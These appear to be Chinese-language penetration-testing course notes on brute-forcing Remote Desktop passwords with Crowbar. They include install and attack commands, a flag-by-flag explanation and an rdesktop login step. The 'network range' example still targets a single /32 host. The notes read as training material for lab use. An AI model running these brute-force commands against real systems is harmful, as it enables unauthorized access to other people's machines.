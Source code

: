 # Password Attacks

## RDP Attacks
> 19.3.2 Remote Desktop Protocol Attack with Crowbar 
- 工具：Crowbar
- 安装：`sudo apt install crowbar `
- 使用：

**爆破单主机：**
```
# 当爆破 RDP 服务时，线程最好使用 1，因为 RDP 不能很好地处理多线程，**如果使用多线程，会造成误报和漏报**
>> crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1 -v

Command explain:
-b 协议
-s 目标
-u 用户名
-C 密码字典
-n 线程
-v 详细模式
```
**爆破网段(多个主机)**
```
>> crowbar -b rdp -s 10.11.0.22/32 -u admin -d -C ~/password-file.txt -n 1 

Command explain:
-d port discover，会在爆破之前根据-b 指定的服务去扫描端口，如果端口未开放则跳过这台主机
```

爆破成功之后使用rdesktop尝试登录：
```
rdesktop -g 50% -u Administrator -p {password} {IP}
```

